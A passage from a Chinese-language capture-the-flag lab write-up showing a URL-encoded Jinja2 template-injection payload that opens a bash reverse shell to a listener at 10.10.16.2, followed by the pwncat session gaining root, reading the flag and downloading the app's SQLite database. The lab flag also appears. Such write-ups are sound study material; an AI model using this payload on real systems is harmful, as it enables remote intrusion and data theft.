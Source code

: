 对于使用 http GET 进行传输，进行一定的编码

```plaintext
{%25+if+request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.2/9999+0>%261"')['read']()+%3d%3d+'chiv'+%25}+a+{%25+endif+%25}
```

成功在侦听器上收到回连的 shell

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[18:35:40] Welcome to pwncat 🐈!
[18:44:52] received connection from 10.13.37.14:51520
[18:45:01] 10.13.37.14:51520: registered new host w/ db
(local) pwncat$ back
(remote) root@98aa0f47eb96:/app# whoami
root
(remote) root@98aa0f47eb96:/app# cat flag.txt
FARADAY{7x7_1s_n0t_@lw4ys_49}
```

```plaintext title="Flag"
FARADAY{7x7_1s_n0t_@lw4ys_49}
```

## Time to play

在服务的目录下，发现数据库目录

```shell
(remote) root@98aa0f47eb96:/app# ls -lh
total 40K
drwxr-xr-x 2 root root 4.0K Jul 21  2021 __pycache__
-rwxr-xr-x 1 root root 8.4K Jul 21  2021 app.py
drwxr-xr-x 2 root root 4.0K Mar  8 10:44 db
-rw-r--r-- 1 root root   30 Jul 16  2021 flag.txt
-rw-r--r-- 1 root root  220 Jul 16  2021 requirements.txt
drwxr-xr-x 3 root root 4.0K Jul 16  2021 static
drwxr-xr-x 2 root root 4.0K Jul 21  2021 templates
-rw-r--r-- 1 root root   71 Jul 16  2021 wsgi.py
(remote) root@98aa0f47eb96:/app# ls -lh ./db/
total 24K
-rw-r--r-- 1 root root 24K Mar  8 10:44 database.db
```

将文件下载到本地

```shell
(local) pwncat$ download ./db/database.db .
./db/database.db ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 24.6/24.6 KB • ? • 0:00:00
[18:49:04] downloaded 24.58KiB in 2.12 seconds
```
